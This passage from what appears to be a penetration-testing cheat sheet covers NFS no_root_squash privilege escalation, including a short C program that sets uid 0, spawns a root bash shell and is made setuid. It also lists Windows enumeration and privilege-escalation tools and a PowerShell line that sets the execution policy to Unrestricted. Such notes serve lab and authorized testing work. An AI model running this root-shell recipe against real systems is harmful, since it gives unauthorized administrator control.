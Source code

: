 on /etc/export look for mount poits that have no_root_squash:
mount -o rw IP:REMOTE_MOUNT_POINT /tmp/test

main.c

```c
int main()
{
    setgid(0);
    setuid(0);
    system('/bin/bash');
    return 0;
}
```

gcc -o main -w main.c
chmod +s main

# Windows

## Tools

[dnSpy to view dll](https://github.com/dnSpy/dnSpy)

[sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/)

## Utilities
```bash
rdesktop IP -u USERNAME -p -

recordmydesktop --windowid=WINDOW_ID --overwrite --no-sound
```

to get WINDOW_ID
```bash
xdotool selectwindow
```

Print installed Software:
```bash
Set-ExecutionPolicy Unrestricted
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -AutoSize
```

## Priviledge Escalation

### Tools

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [PrivescCheck](https://github.com/itm4n/PrivescCheck)
- [WES-NG: Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng)
